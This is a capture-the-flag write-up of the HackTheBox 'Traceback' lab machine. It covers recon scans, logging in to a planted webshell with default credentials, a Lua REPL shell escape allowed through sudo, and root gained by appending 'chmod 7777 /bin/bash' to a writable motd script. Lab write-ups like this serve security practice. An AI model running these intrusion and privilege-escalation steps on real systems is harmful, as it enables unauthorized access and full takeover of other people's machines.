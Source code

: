 ```yaml
---
title: Traceback
date: 2022-06-16 
categories: [HackTheBox, Easy]
tags: [writeup, linux]     # TAG names should always be lowercase
author: Derrick
---
```


![](https://i.imgur.com/dVPTnt8.png)

Traceback is one of the boxes I am proud of doing not because of its difficulty, but how fast I was able to gain root on it. Granted, the "hacker" who this box's premised revolved around, left hints that were brutally obvious. This was one of the first times that I did not run into a wall while solving the box. The attack vector was very clear from start to finish.

## Recon

`nmap -sVC 10.10.10.181`
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-15 20:37 EDT
Nmap scan report for traceback.htb (10.10.10.181)
Host is up (0.083s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache/2.4.29 (Ubuntu)
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.43 seconds
```

![](https://i.imgur.com/tc6BJGj.png)


Apparently theres a backdoor somewhere. Its probably a webshell of some sort.

`gobuster dir -u http://10.10.10.181 -w /usr/share/seclists/Web-Shells/backdoor_list.txt`
```    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.181
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Web-Shells/backdoor_list.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/15 20:41:50 Starting gobuster in directory enumeration mode
===============================================================
/smevk.php            (Status: 200) [Size: 1261]                
===============================================================
```

![](https://i.imgur.com/iFWnKhI.png)

Looks like we got some sort of webshell.

![](https://i.imgur.com/ewcBU6Q.png)


Based on the github repo for this specific webshell, the default creds are just admin admin so lets test that.

![](https://i.imgur.com/wjLCXwc.png)

After some play testing, heres my conclusion about this webshell
* its pretty janky
* we have file write
* attemped a reverse shell but something went wrong

Upload my ssh key into the .ssh directory and ssh in.

`ssh webadmin@traceback.htb`
```
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Jun 15 18:10:25 2022 from 10.10.14.19
webadmin@traceback:~$ 
```

Worked perfectly however this is not user. sysadmin is the user and we need to pivot to them.


> It is also worth noting that message of the day when sshing in
{: .prompt-idea }

`sudo -l`
```
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

`cat note.txt `
```
- sysadmin -
I have left a tool to practice Lua.
Im sure you know where to find it.
Contact me if you have any question.
```

Couple of interesting finds. Note.txt is referring to some sort of Lua program and `sudo -l` references luvit which is a lua program. Putting two and two together, we can abuse the lua program to spawn a shell as our user.

Running the program just executes lua commands so we can just simply spawn a shell.

Demo:
```
Welcome to the Luvit repl!
> os.execute('/bin/sh')
$ whoami
sysadmin
```

User obtained. Time for root.

## Root

```
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land
```

Revisiting the motd, the hacker seems to have left us a large hint moving forward.

`ls -la /etc/update-motd.d/`
```
total 32
drwxr-xr-x  2 root sysadmin 4096 Apr 22  2021 .
drwxr-xr-x 80 root root     4096 Apr 22  2021 ..
-rwxrwxr-x  1 root sysadmin  981 Jun 15 19:39 00-header
-rwxrwxr-x  1 root sysadmin  982 Jun 15 19:39 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Jun 15 19:39 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Jun 15 19:39 80-esm
-rwxrwxr-x  1 root sysadmin  299 Jun 15 19:39 91-release-upgrade
```
Looks like all of them are writable. These are scripts that are run when you logon to the box meaning we can just turn /bin/bash into an suid and run bash -p to gain root.

```bash
echo "chmod 7777 /bin/bash" >> /etc/update-motd.d/00-header
```

Then log out and relog on.

Demo
```
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Jun 15 19:35:06 2022 from 10.10.14.19
-bash-4.4$ whoami
webadmin
-bash-4.4$ bash -p
bash-4.4# whoami
root
```

Pwned :)
